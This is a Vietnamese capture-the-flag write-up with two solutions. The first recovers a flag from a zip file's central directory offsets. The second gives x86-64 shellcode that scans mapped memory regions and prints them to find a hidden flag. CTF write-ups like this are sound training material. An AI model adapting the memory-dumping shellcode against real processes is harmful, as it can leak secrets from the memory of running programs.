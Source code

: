 # Appnote.txt

Bài này là một dạng kỹ thuật nén nhiều tệp tin txt vào một file zip, ở đây ta có thể thấy flag được đánh số từ 0-18 tức là 19 ký tự (dùng binwalk) và nếu dump ra 32 file flagxx.txt bất kỳ ta sẽ nhận được chuỗi strings abcdefghijklmnopqrstuvwxyz{CTF0137} lặp lại từ 00-18 có nghĩa là ký tự flag đã bị đảo. Cần xác định vị trí chính xác của ký tự flag trong 32 file flagxx.txt thì chúng ta dựa vào `End of central directory record` của file zip là `50 4b 05 06` và từ `EOCDR` sẽ xác định được `Central Directory file header` sau 2 byte `00` là sẽ tới 2 byte `CD`:

```
CC 00 00 00

88 0A 00 00

65 17 00 00

42 24 00 00

BB 2F 00 00

6C 38 00 00

27 4A 00 00

7F 52 00 00

3A 64 00 00

71 69 00 00

37 7C 00 00

58 7F 00 00

F1 95 00 00

3E 9D 00 00

5E A8 00 00

88 BC 00 00

92 C5 00 00

2C D4 00 00

20 DB 00 00

3F EE 00 00

50 00 00 00 
```

Dùng HxD search hex value các CD thì ta sẽ tìm được vị trí của flag từ 00-18:
```
88 0A 00 00 = flag00C = C

65 17 00 00 = flag01T = T

42 24 00 00 = flag02F = F

BB 2F 00 00 = flag03{ = {

6C 38 00 00 = flag04p = p

27 4A 00 00 = flag050 = 0

7F 52 00 00 = flag06s = s

3A 64 00 00 = flag077 = 7

71 69 00 00 = flag08m = m

37 7C 00 00 = flag090 = 0

58 7F 00 00 = flag10d = d

F1 95 00 00 = flag113 = 3

3E 9D 00 00 = flag12r = r

5E A8 00 00 = flag13n = n

88 BC 00 00 = flag14 = _

92 C5 00 00 = flag15z = z

2C D4 00 00 = flag161 = 1

20 DB 00 00 = flag17p = p

3F EE 00 00 = flag18} = }
```

=> CTF{p0s7m0d3rn_z1p}


# Segfault Labyrinth
Bài này tạo nhiều mảng nối lồng lại với nhau và sau đó để flag vào 1 trong những ô nhớ vừa được tạo. Nhiệm vụ sẽ là viết shellcode để lấy được flag:

```asm
lea rsp, [rip + 0x1000 - 0x34]
push 0
push rdi
check_stack:
mov rax, 1
mov rdi, 1
mov rsi, [rsp]
mov rdx, 128
syscall
pop rbp
mov r9, 0
loop:

mov r10, qword ptr [rbp + r9 * 8]

test r10, r10
jz skip_item

mov rax, r10
and rax, 0xfff
test rax, rax
jnz skip_item

mov rax, 5
mov rdi, 0
lea rsi, [r10 + 128]
syscall
cmp rax, 0xfffffffffffffff2
je skip_item

push r10

skip_item:
add r9, 1
cmp r9, 16
je check_stack
jmp loop
```

Tóm tắt: Vì sử dụng mmap nên elf sẽ allocate nhưng memory region khác nhau. Như vậy chỉ cần duyệt qua tất cả các memory region, đoạn memory nào được allocate thì sẽ in hết nội dung ra. 

Tham khảo: <https://shakuganz.com/2021/07/14/hackthebox-hunting-write-up>
